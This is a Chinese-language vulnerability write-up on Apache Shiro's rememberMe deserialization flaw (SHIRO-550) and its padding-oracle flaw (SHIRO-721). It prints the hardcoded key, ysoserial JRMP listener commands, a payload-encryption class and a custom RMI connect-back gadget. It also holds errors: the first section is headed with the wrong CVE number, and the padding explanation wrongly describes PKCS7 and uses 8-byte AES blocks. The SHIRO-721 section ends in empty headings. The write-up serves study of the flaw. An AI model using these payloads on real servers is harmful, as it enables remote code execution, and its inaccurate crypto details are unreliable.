






## CVE-2016-6802

### 漏洞信息

* 漏洞编号：CVE-2016-4437 / CNVD-2016-03869 / SHIRO-550
* 影响版本：shiro 1.x < 1.2.5
* 漏洞描述：利用**硬编码**的密钥构造rememberMe参数，进行**反序列化攻击**

### 漏洞详解

* 实验环境：shiro1.2.4（tomcat）[JavaThings/shirodemo at master · phith0n/JavaThings](https://github.com/phith0n/JavaThings/tree/master/shirodemo)

```xml
<dependency>
  <groupId>org.apache.shiro</groupId>
  <artifactId>shiro-core</artifactId>
  <version>1.2.4</version>
</dependency>
<dependency>
  <groupId>org.apache.shiro</groupId>
  <artifactId>shiro-web</artifactId>
  <version>1.2.4</version>
</dependency>
```

#### 代码分析

##### shiro cookie rememberMe的生成过程

在登陆时勾选remember me，在`CookieRememberMeManager#rememberSerializedIdentity`打上断点，对程序进行调试，

根据这个函数名称还有代码我们可以看出，第二个参数`byte[] serialized`即为cookie中的rememberMe，它在这个函数中被base64编码后添加到此次请求的response中



我们向上追溯`byte[] serialized`的生成过程，发现在`AbstractRememberMeManager#rememberIdentity`调用函数`convertPrincipalsToBytes`生成了该数组，接着分析该函数

```java
 protected byte[] convertPrincipalsToBytes(PrincipalCollection principals) {
        // serialize使用一个序列化器对principals进行序列化
        // 序列化器有一个默认的DefaultSerializer，就是通常的序列化操作；也可以手动指定序列化器
        byte[] bytes = serialize(principals);
        // 这里的if分支判断是否有加密器，有的话对序列化结果进行加密
        // 默认是采用的AesCipherService，从名字也可以看出这里是AES加密，加密器代码就不具体分析了
        if (getCipherService() != null) {
            bytes = encrypt(bytes);
        }
        return bytes;
    }

// 构造函数，设置了默认的反序列化器、加密函数和加密秘钥
// 重要的是这里的加密和解密秘钥默认是一个硬编码的秘钥kPH+bIxk5D2deZiIxcaaaA==
public AbstractRememberMeManager() {
    this.serializer = new DefaultSerializer<PrincipalCollection>();
    this.cipherService = new AesCipherService();
    setCipherKey(DEFAULT_CIPHER_KEY_BYTES);
}
```

我们稍微关注一下反序列化的对象`PrincipalCollection principals`，其实从调试的对象数据来看，看得出这是一个与用户信息相关的对象



##### shiro rememberMe 反序列化的过程

既然弄清了rememberMe实际上是一个AES加密的序列化对象，那它大概率还是要反序列化的，重要的是漏洞版本的秘钥都是硬编码的，我们可以构造出rememberMe。

接着，我们来分析rememberMe是否有反序列化的过程，具体过程是怎么样的，我们是否可以构造一个恶意的序列化对象进行攻击。

如果rememberMe需要反序列化，那么必定要先进行解密，因此可以查看`AbstractRememberMeManager`中解密秘钥的属性来确定代码，于是定位到了解密方法`AbstractRememberMeManager#decrypt`


我们向后运行，来到了`AbstractRememberMeManager#convertBytesToPrincipals`，这里的deserialize是使用序列化器进行反序列化操作，默认的反序列化器就是通常的反序列化操作，于是在这里，我们确定了反序列化点。



继续往后，反序列化后返回到了`AbstractRememberMeManager#getRememberedPrincipals`中，在这个方法里，我们也看到了反序列化字符串的来源`getRememberedSerializedIdentity`



我们现在向前追溯，查看序列化对象是否是我们可控的，在此处打上断点继续调试，进入该方法后，来到了`CookieRememberMeManager#getRememberedSerializedIdentity`，逻辑比较简单，读取http中的key为rememberMe的cookie值，将其base64解码后返回

```java
protected byte[] getRememberedSerializedIdentity(SubjectContext subjectContext) {

        if (!WebUtils.isHttp(subjectContext)) {
            if (log.isDebugEnabled()) {
                String msg = "SubjectContext argument is not an HTTP-aware instance.  This is required to obtain a " +
                        "servlet request and response in order to retrieve the rememberMe cookie. Returning " +
                        "immediately and ignoring rememberMe operation.";
                log.debug(msg);
            }
            return null;
        }

        WebSubjectContext wsc = (WebSubjectContext) subjectContext;
        if (isIdentityRemoved(wsc)) {
            return null;
        }

        HttpServletRequest request = WebUtils.getHttpRequest(wsc);
        HttpServletResponse response = WebUtils.getHttpResponse(wsc);

        String base64 = getCookie().readValue(request, response);
        // Browsers do not always remove cookies immediately (SHIRO-183)
        // ignore cookies that are scheduled for removal
        if (Cookie.DELETED_COOKIE_VALUE.equals(base64)) return null;

        if (base64 != null) {
            base64 = ensurePadding(base64);
            if (log.isTraceEnabled()) {
                log.trace("Acquired Base64 encoded identity [" + base64 + "]");
            }
            byte[] decoded = Base64.decode(base64);
            if (log.isTraceEnabled()) {
                log.trace("Base64 decoded byte array length: " + (decoded != null ? decoded.length : 0) + " bytes.");
            }
            return decoded;
        } else {
            //no cookie set - new site visitor?
            return null;
        }
    }
```

##### 没有分析的地方（TODO）

这里为了反序列化攻击分析了与序列化和反序列化相关的代码，但是没有深入去分析反序列化后的对象是如何被使用的，毕竟身份验证是通过这个对象进行的，在拿到了shiro key但是没有找到利用链的情况下，是否可以在这个对象上做做文章呢？这个问题后续再分析

#### 反序列化链的选择

反序列化攻击的前置是找到一条利用链，而且最好这条链子所需的类是仅仅依赖于出现反序列化点的库和jre的。这里也是一样的，我们不能寄希望于于存在Shiro550的目标一定引用了存在其他利用链的依赖。

##### 不依赖于CommonsCollections的CB1

详细分析见之前的文章（TODO）

这里将代码略作修改添加到ysoserial中

##### 二次反序列化（TODO）

依稀记得曾经看到过相关文章，可以通过二次反序列化解决依赖问题，后续有机会再补充。

#### Tomcat环境下的利用链

##### Tomcat环境下使用改造CC6

见之前的文章（TODO）

这里将代码略作修改添加到ysoserial中

##### Tomcat环境下使用JRMPClient链

由于JRMPClient链不依赖三方库中的类，在JRMPClient（jdk241之前）支持的版本下可以利用。

* jdk231之前，使用ysoserial生成恶意对象并开启而已的JRMP服务

```shell
# 打开JRMP恶意服务端
# 注意这里利用链的是否适用于当前java版本，必要依赖是否存在,1999为恶意服务监听端口
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 1999 CommonsCollections6 "calc.exe"
```

在ysoserial中实现加密功能

```java
// 加密工具类
public class ShiroEncrypt {
    public static String shiroEncryptCBC(byte[] needEncrypt, String key) {
        AesCipherService aes = new AesCipherService();
        byte[] byteKey =
            java.util.Base64.getDecoder().decode(key);
        ByteSource ciphertext = aes.encrypt(needEncrypt, byteKey);
        return ciphertext.toString();
    }

    // TODO
    public static String shiroEncryptGCM(byte[] needEncrypt, String key) {
        return null;
    }
}

// exploit模块下添加类生成加密payload
import ysoserial.Serializer;
import ysoserial.payloads.CommonsCollections1;
import ysoserial.payloads.ObjectPayload;
import ysoserial.payloads.util.ShiroEncrypt;

public class ShiroGadgetEncrypt {
    public static void main(String[] args) throws Exception {
        // 处理传入参数，key 加密模式 (CBC,GCM) gadget链 命令
        final String key = args[0].trim();
        final String encryptMode = args[1].trim();
        final String gadget = CommonsCollections1.class.getPackage().getName() +  "." +  args[2].trim();
        final String command = args[3].trim();

        final Class<? extends ObjectPayload> payloadClass = (Class<? extends ObjectPayload>) Class.forName(gadget);
        ObjectPayload payloadObj = payloadClass.newInstance();
        Object payload = payloadObj.getObject(command);
        byte[] ser = Serializer.serialize(payload);

        String encryptString;
        if (encryptMode.equals("CBC")){
            encryptString = ShiroEncrypt.shiroEncryptCBC(ser,key);
            System.out.println(encryptString);
        }else if(encryptMode.equals("GCM")){
            // TODO
        }else {
            System.out.println("Unknown encrypt mode: " + encryptMode);
        }
    }
}
```

```shell
# 参数：秘钥 加密模式 gadget command
java -cp ysoserial-all.jar ysoserial.exploit.ShiroGadgetEncrypt kPH+bIxk5D2deZiIxcaaaA== CBC CommonsCollections1 calc
```

* jdk231<=version<jdk241时，由于jdk对于JRMP反序列化的修复，ysoserial中的JRMPClient无法使用，但是有另一条类似思路实现的链子可以利用[Trinhs RMI 注册表旁路 |MOGWAI 实验室 (mogwailabs.de)](https://mogwailabs.de/en/blog/2020/02/an-trinhs-rmi-registry-bypass/)

```shell
# 同样先打开恶意JRMP服务
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 1999 CommonsCollections6 "calc.exe"
```

在ysoserial中添加该链

```java
package ysoserial.payloads.rmi;

import sun.rmi.server.UnicastRef;
import sun.rmi.transport.LiveRef;
import sun.rmi.transport.tcp.TCPEndpoint;
import ysoserial.payloads.ObjectPayload;
import ysoserial.payloads.util.Reflections;
import java.lang.reflect.Constructor;
import java.lang.reflect.Proxy;
import java.rmi.Remote;
import java.rmi.server.*;
import java.util.Random;

public class RMIConnectWithUnicastRemoteObject implements ObjectPayload<Object> {
    public Object getObject(final String command) throws Exception {
        String host;
        int port;
        int sep = command.indexOf(':');
        if ( sep < 0 ) {
            port = new Random().nextInt(65535);
            host = command;
        }
        else {
            host = command.substring(0, sep);
            port = Integer.valueOf(command.substring(sep + 1));
        }
        ObjID id = new ObjID(new Random().nextInt()); // RMI registry
        TCPEndpoint te = new TCPEndpoint(host, port);

        //1.UnicastRef对象 -> RemoteObjectInvocationHandler
        //obj是UnicastRef对象，先RemoteObjectInvocationHandler封装
        RemoteObjectInvocationHandler handler = new RemoteObjectInvocationHandler((RemoteRef) new UnicastRef(new LiveRef(id, te, false)));
        //2. RemoteObjectInvocationHandler -> RMIServerSocketFactory接口
        //RemoteObjectInvocationHandler通过动态代理封装转化成RMIServerSocketFactory
        RMIServerSocketFactory serverSocketFactory = (RMIServerSocketFactory) Proxy.newProxyInstance(
            RMIServerSocketFactory.class.getClassLoader(),// classloader
            new Class[] { RMIServerSocketFactory.class, Remote.class}, // interfaces to implements
            handler// RemoteObjectInvocationHandler
        );
        //通过反射机制破除构造方法的可见性性质，创建UnicastRemoteObject实例
        Constructor<?> constructor = UnicastRemoteObject.class.getDeclaredConstructor(null); // 获取默认的
        constructor.setAccessible(true);
        UnicastRemoteObject remoteObject = (UnicastRemoteObject) constructor.newInstance(null);
        //3. RMIServerSocketFactory -> UnicastRemoteObject
        //把RMIServerSocketFactory塞进UnicastRemoteObject实例中
        Reflections.setFieldValue(remoteObject, "ssf", serverSocketFactory);
        return remoteObject;
    }
}
```

```shell
# 参数：秘钥 加密模式 gadget command
java -cp ysoserial-all.jar ysoserial.exploit.ShiroGadgetEncrypt kPH+bIxk5D2deZiIxcaaaA== CBC rmi.RMIConnectWithUnicastRemoteObject 127.0.0.1:1999
```

* **jdk241<=version，JRMPClient无法使用**

### 漏洞修复

* 漏洞产生的根本原因是默认使用硬编码秘钥
* `Shiro` 在 `1.2.5` 中对此漏洞进行了修复。系统在启动的时候会生成一个新`key`，用户也可以手动配置一个`cipherKey`。
* **虽然修复了，但如果知道用户设置的秘钥，还是可以利用该漏洞**

### 漏洞利用

* 使用之前漏洞分析的代码

* 工具 [SummerSec/ShiroAttack2: shiro反序列化漏洞综合利用,包含（回显执行命令/注入内存马）修复原版中NoCC的问题 https://github.com/j1anFen/shiro_attack](https://github.com/SummerSec/ShiroAttack2)，这个工具的优点在于有好几条CB链，适用的环境较多

在1.4.2及以后，加密方式更改为了AES GCM，高版本利用时需要更改加密方式



## CVE-2019-12422

### 漏洞信息

* 漏洞编号：CVE-2019-12422 / CNVD-2016-07814 /SHIRO-721
* 影响版本：shiro < 1.4.2
* 漏洞描述：RememberMe**默认通过 AES-128-CBC 模式加密**，易受**Padding Oracle Attack**攻击

### 漏洞详解

* 实验环境：shiro1.4.1 (配置tomcat运行) [Release shiro-root-1.4.1 · apache/shiro](https://github.com/apache/shiro/releases/tag/shiro-root-1.4.1)

#### Padding Oracle Attack

* 参考 [skysec.top](https://skysec.top/2017/12/13/padding-oracle和cbc翻转攻击/)

##### 了解CBC加密模式

AES是一种分组密码，以AES128为例，它的密钥长度为128位，不论明文长多为多少，都要将其分为128位一块来进行加密。AES本身只定义了一块明文如何进行加密，当明文分为多块时，如何进行加密呢，这时就要结合加密模式进行加密。除了马上要介绍的CBC，最简单的加密模式是ECB，用相同的秘钥直接对每一块进行加密得到密文，但这种模式很不安全。


**CBC加密模式**：

这里要介绍的CBC也是加密模式的一种，加解密过程如下图：



以加密过程为例，其中的x是明文，IV是一个和分组长度相同的初始向量，ek是加密函数（这里即AES加密），y为密文，解密过程中的dk是解密函数（AES解密）。这里的IV很重要，它是进行攻击的关键，在加密时，它要与明文异或得到一个中间状态再输入加密函数；在解密时它与密文解密的中间结果进行异或获取明文。IV是**公开的**，在shiro框架中，包含在RemenberMe里，它是**攻击者可控的**。


**填充**：

回到刚刚谈到的分组问题上，有一个问题是明文长度不总是秘钥长度的倍数，这个时候最后一块如何处理呢，这就涉及到**填充**，要将最后一个分组填充到分组长度。CBC有如下几种填充方式：

* `NoPadding`：不填充，明文长度必须是 `16 Bytes` 的倍数。
* `PKCS5Padding`：`PKCS7Padding`跟`PKCS5Padding`的区别就在于数据填充方式，`PKCS7Padding`是缺几个字节就补几个字节的`0`，而`PKCS5Padding`是缺几个字节就补充几个字节的几，比如缺`6`个字节，就补充`6`个字节的`6`，如果不缺字节，就需要再加一个字节块。
* `ISO10126Padding`：以随机字节填充 , 最后一个字节为填充字节的个数。

Shiro CBC使用的是 PKCS5Padding方式进行填充，所以填充值只可能为:

```txt
# B为明文的非填充字节
B B B B B B B 0x01
B B B B B B 0x02 0x02
B B B B B 0x03 0x03 0x03
B B B B 0x04 0x04 0x04 0x04
B B B 0x05 0x05 0x05 0x05 0x05
B B 0x06 0x06 0x06 0x06 0x06 0x06
B 0x07 0x07 0x07 0x07 0x07 0x07 0x07
0x08 0x08 0x08 0x08 0x08 0x08 0x08 0x08
```

如果某次解密出的最后一个明文分组不为上述结果中的一个，这就说明密文或者IV出现了错误

##### 攻击原理


#### 代码分析

### 漏洞利用

### 漏洞修复